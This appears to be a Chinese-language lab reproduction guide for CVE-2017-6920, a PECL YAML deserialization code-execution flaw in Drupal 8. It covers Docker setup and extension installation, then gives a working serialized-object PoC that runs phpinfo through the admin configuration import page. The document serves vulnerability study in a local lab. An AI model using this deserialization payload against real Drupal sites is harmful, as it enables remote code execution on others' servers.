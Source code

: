 # Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞（CVE-2017-6920）

* 影响软件：Drupal
* 方式：反序列化
* 参考链接：[CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](https://paper.seebug.org/334/)
* 效果：任意代码执行

## 漏洞环境

执行如下命令启动 drupal 8.3.0 的环境：

```bash
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

## 漏洞复现

* 先安装 `yaml` 扩展

```bash
# 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
cat > sources.list << EOF
deb http://mirrors.163.com/debian/ jessie main non-free contrib
deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
EOF
# 安装依赖
apt update
apt-get -y install gcc make autoconf libc-dev pkg-config
apt-get -y install libyaml-dev
# 安装yaml扩展
pecl install yaml
docker-php-ext-enable yaml.so
# 启用 yaml.decode_php 否则无法复现成功
echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
# 退出容器
exit
# 重启容器，CONTAINER换成自己的容器ID
docker restart CONTAINER
```

* 1.登录一个管理员账号
* 2.访问 `http://127.0.0.1:8080/admin/config/development/configuration/single/import`
* 3.如下图所示，`Configuration type` 选择 `Simple configuration`，`Configuration name` 任意填写，`Paste your configuration here` 中填写PoC如下：

```php
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

![1](1.png)

* 4.点击 `Import` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面。

![2](2.png)

* Tips：
  * 虽然官方 CPE 信息显示从 `8.0.0` 开始就有该漏洞，但是在 `drupal:8.0.0` 容器内并没有复现成功，相同操作在 `drupal:8.3.0` 则可以复现成功，故基础镜像选择`drupal:8.3.0`
